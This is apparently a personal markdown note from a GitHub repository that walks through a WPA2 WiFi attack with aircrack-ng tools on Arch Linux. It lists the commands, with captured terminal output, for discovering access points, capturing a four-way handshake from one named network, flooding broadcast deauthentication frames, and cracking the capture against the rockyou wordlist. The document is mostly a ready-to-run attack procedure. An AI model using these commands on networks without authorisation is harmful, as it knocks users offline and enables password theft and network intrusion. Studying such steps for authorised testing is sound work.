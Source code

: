set up kernel modules for [rtl8812au](https://github.com/Wodajo/Linux-projects/blob/main/installation/rtl%20kernel%20module%20installation.md) on arch-linux (with blackarch repo)  

[set up NIC](https://github.com/Wodajo/Linux-projects/blob/main/installation/rtl%20NIC%20setting%20up.md)

##### airodump - aireplay
`sudo airmon-ng check kill` - kill conflicting processes

`sudo airodump-ng wlp0s26u1u2` - discover access point.
```
 CH  7 ][ Elapsed: 0 s ][ 2022-07-02 00:38 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C0:06:C3:44:C2:0A  -72       11        0    0   7  540   WPA2 CCMP   PSK  HH71VM_B30E_2.4G_E
 F0:51:36:27:7C:47  -44       10        0    0   1  270   WPA2 CCMP   PSK  HH71VM_7C47_2.4G  
 0C:71:8C:44:B3:0E  -65       12        0    0   7  130   WPA2 CCMP   PSK  HH71VM_B30E_2.4G  
 2E:0E:3D:7F:34:5D  -48       12        1    0  11  130   WPA2 CCMP   PSK  Hic_habitat_felici

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 ```
BSSID (MAC address) - 2E:0E:3D:7F:34:5D
CH (channel) - 7

`sudo airodump-ng -w hack1 -c 11 --bssid 2E:0E:3D:7F:34:5D wlp0s26u1u2`
```
00:41:32  Created capture file "hack1-02.cap".





 CH 11 ][ Elapsed: 2 mins ][ 2022-07-02 00:43 ][ WPA handshake: 2E:0E:3D:7F:34:5D 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 2E:0E:3D:7F:34:5D  -45 100     1189      625    0  11  130   WPA2 CCMP   PSK  Hic_habitat_felicitas                                  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 2E:0E:3D:7F:34:5D  B8:08:CF:3C:7B:1E  -44    1e-24e     0      844  EAPOL
```

to deauthenticate:
`sudo aireplay-ng --deauth 0 -a 2E:0E:3D:7F:34:5D wlp0s26u1u2`
```
0:42:44  Waiting for beacon frame (BSSID: 2E:0E:3D:7F:34:5D) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
00:42:44  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:45  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:45  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:46  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:46  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:47  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:47  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:48  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:49  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:49  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:50  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:50  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
00:42:51  Sending DeAuth (code 7) to broadcast -- BSSID: [2E:0E:3D:7F:34:5D]
```

previous command captured 4way handshake and stored hash (sent by dev trying to reauth into) -> crack with hashcat/john

OR

with `aircrack` (wrapper for _____)
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

You can open `hack1-01.cap` with wireshark. use filter `eapol` to show handshake
##### wifite
wrapper for `airodump`, `aireplay` and `aircrack`. Automates stuff, and is colorfull

